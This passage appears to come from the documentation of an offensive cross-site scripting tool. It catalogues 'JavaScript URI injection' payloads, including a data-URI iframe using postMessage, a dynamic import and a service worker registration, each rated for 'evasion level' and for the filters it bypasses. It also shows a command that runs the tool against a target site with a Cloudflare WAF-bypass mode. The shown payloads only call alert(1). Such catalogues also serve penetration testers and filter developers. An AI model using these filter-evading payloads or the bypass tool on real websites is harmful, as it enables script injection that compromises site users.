 
## 🌐 3. JavaScript URI Injection

**Category**: `javascript_uri_injection`  
**Difficulty**: `advanced`  
**Description**: JavaScript protocol handler abuse and URI injection

### 🎯 Target Contexts
- `<a href="javascript:...">`
- `window.location`, `window.open` using user input

### 💀 Key Payloads

#### Data URI + postMessage Hybrid
```html
<iframe src="data:text/html,<script>parent.postMessage('javascript:alert(1)','*')</script>">
```
- **Evasion Level**: 9/10
- **Bypasses**: data_uri_filters, postMessage_detection, iframe_filters

#### ES6 Dynamic Import
```javascript
import('/js/module.js?cb=alert(1)//').then(m=>m.default());
```
- **Evasion Level**: 9/10
- **Bypasses**: import_filters, es6_detection, dynamic_import_detection

#### Service Worker Registration
```javascript
navigator.serviceWorker.register('/sw.js?cb=alert(1)//')
```
- **Evasion Level**: 9/10
- **Bypasses**: serviceworker_filters, registration_detection

### 🔧 Usage Examples
```bash
# Test JavaScript URI injection
xss-ultimate -t example.com -w cloudflare -m god_tier
```

---

## 🖼️ 4. innerHTML SVG Namespace

**Category**: `innerhtml_svg_namespace`  
**Difficulty**: `god_tier_advanced`  
**Description**: SVG injection via innerHTML with namespace manipulation

### 🎯 Target Contexts
- SVG injection via innerHTML
- Mixed namespace trick to bypass filters
